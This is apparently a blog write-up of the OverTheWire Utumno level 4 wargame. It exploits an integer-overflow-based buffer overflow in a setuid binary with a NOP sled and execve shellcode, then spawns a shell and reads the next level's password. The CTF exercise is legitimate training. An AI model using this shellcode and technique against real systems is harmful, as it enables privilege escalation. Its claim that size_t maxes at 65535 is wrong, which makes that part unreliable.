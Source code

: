 ```yaml
---
layout: post
title: OverTheWire - Utumno4
---
```


Site: http://overthewire.org/wargames/utumno/ <br>
Level: 4<br>
Situation: Integer Overflow<br><br>

We start the way we usually do. Let’s create a temp folder to work from, get our arch type and run the application

{% highlight bash %}
utumno4@melinda:~$ mkdir /tmp/uh4
utumno4@melinda:~$ cd /tmp/uh4
{% endhighlight %}

{% highlight bash %}
utumno4@melinda:/tmp/uh4$ file /utumno/utumno4
/utumno/utumno4: setuid ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=f08e1d32ab3f918787ecb922b16945e4dfb18383, not stripped
{% endhighlight %}

{% highlight bash %}
utumno4@melinda:/tmp/uh4$ /utumno/utumno4
Segmentation fault
{% endhighlight %}

At first we are presented with an immediate segfault not generally a good start. But let’s pass in some parameters and see what happens.

{% highlight bash %}
utumno4@melinda:/tmp/uh4$ /utumno/utumno4 a a
{% endhighlight %}

Doesn’t crash so we know we have to pass in some values lets go ahead and download the file and look at it.

![Embeded](/images/utumno/utumno4/image1.jpg)
[FullSize](/images/utumno/utumno4/image1.jpg)

Simple execution flow lets go ahead and mark it up so we can see exactly what is going on.

![Embeded](/images/utumno/utumno4/image2.jpg)
[FullSize](/images/utumno/utumno4/image2.jpg)

Simple enough and we now know that memcpy is taking in our arguments directly without modifying them. This is vulnerable to what is known has an integer overflow. Let’s look at the memcpy definition.

{% highlight bash %}
void *memcpy(void *dest, const void *src, size_t n);
 {% endhighlight %}

We know our first variable is being converted to an int and is being used for "n". Or the size to copy. Size_T's max size is 65535 if we place a value larger then this we can cause a segfault. 

What this allows us to do is pass in a value larger than the max size and a string of equal length and run shell code. However one thing to keep in mind during this is the offset between main and the return function. 

First we test that a crash does occur.

{% highlight bash %}
utumno4@melinda:/tmp/uh4$ /utumno/utumno4 65536 a
Segmentation fault
{% endhighlight %}

We confirmed the crash now we need to see if we can control EIP with this crash. To do this we use Perl.

{% highlight bash %}
utumno4@melinda:/tmp/uh4$ strace /utumno/utumno4 65536 `perl -e 'print "A"x65536'`
-- SNIP --
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x41414141} ---
+++ killed by SIGSEGV +++
Segmentation fault
-- SNIP --
{% endhighlight %}

It works now all we have to do is find the offset. However things got werid. At this point when using metasploits offset pattern generation it returns a value of 4506 which when attempted didn't work. 

So it was a guessing game to narrow down the exact offset we needed. It ended up being 65294 so this turns our payload into the following.

{% highlight bash %}
/utumno/utumno4 65536 `perl -e 'print "\x90"x65273 . "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" . "AAAA" . "\x90"x238'`
{% endhighlight %}

It is important to note we still need the full memory space filled or the overflow will act up.

Finally we just need to find the address of our nopseld. Utilizing the invoker.sh script and removing COLUMNS and the LINES environmental variables we pick the address 0xffefde33 and turn our payload into the following.

{% highlight bash %}
65536 `perl -e 'print "\x90"x65273 . "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" . "\x33\xed\xfe\xff" . "\x90"x238'`
{% endhighlight %}

Run it and we get the following.

{% highlight bash %} 
utumno4@melinda:/tmp/uh4$ ./invoker.sh /utumno/utumno4 65536 `perl -e 'print "\x90"x65273 . "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" . "\x33\xed\xfe\xff" . "\x90"x238'`
$ whoami
utumno5
$ cat /etc/utumno_pass/utumno5
[OMITTED]
{% endhighlight %}

There is our password